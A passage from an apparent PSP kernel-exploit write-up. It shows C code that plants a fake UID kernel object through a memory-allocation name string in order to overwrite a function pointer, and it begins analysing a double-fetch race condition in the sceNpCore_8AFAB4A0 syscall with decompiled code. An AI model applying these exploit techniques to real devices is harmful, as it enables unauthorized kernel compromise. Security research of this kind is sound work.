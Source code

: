 After trying a bunch of things, I noticed that when you allocate a new UID object, its name is saved within this heap region. The name can be at most 32 characters long and luckily for us, these are enough bytes to successfully fake our UID object in kernel. The only thing we need to worry about is that we cannot use any NULL character within this fake object, otherwise we won't be able to fully copy the data into kernel. The following code snippet shows how this has been achieved:

```c
  // Plant UID data structure into kernel as string
  u32 string[] = { LIBC_CLOCK_OFFSET - 4, 0x88888888, 0x88016dc0, encrypted_uid, 0x88888888, 0x10101010, 0, 0 };
  SceUID plantid = sceKernelAllocPartitionMemory(PSP_MEMORY_PARTITION_USER, (char *)&string, PSP_SMEM_Low, 0x10, NULL);
```

Note that `LIBC_CLOCK_OFFSET` is the function pointer we want to overwrite with the address `0x88888888`. The only thing left to do is determining `encrypted_uid`. Thankfully, qwikrazor87 found a nice arbitrary read exploit.

### Double-fetch Race Condition

The syscall `sceNpCore_8AFAB4A0()` is used to fetch some strings from a list. As arguments, we can specify the index of this array, the output buffer and the output length. See the code below:

```c
typedef struct {
  int len;
  char *string;
} SceNpCoreString;

static SceNpCoreString *g_00000D98;

static int sub_000005D8(int *input, char *string, int length) {
  int index;

  index = input[1];
  if (index >= 9)
    return 0x80550203;

  if (g_00000D98[index].len >= length)
    return 0x80550202;

  strcpy(string, g_00000D98[index].string);

  return g_00000D98[input[1]].len;
}

int sceNpCore_8AFAB4A0(int *input, char *string, int length) {
  ...
  res = sub_000005D8(input, string, length);
  ...
  return res;
}
```
